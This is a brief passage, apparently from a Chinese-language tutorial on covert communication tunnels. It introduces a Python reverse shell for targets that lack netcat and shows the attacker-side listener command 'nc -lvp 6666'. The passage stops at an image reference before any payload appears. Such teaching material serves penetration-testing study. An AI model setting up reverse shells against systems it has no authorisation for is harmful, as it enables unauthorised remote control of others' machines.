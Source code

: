 ![](./img/隐藏通信隧道基础知识/40.png)

（10）python反弹shell

在一般情况下，目标主机是不可能有nc这款工具的，但是目标主机上有其他编程语言的环境，我们可以借助反弹shell：

在服务端监听本地端口6666：

```
nc -lvp 6666
```

![](./img/隐藏通信隧道基础知识/41.png)
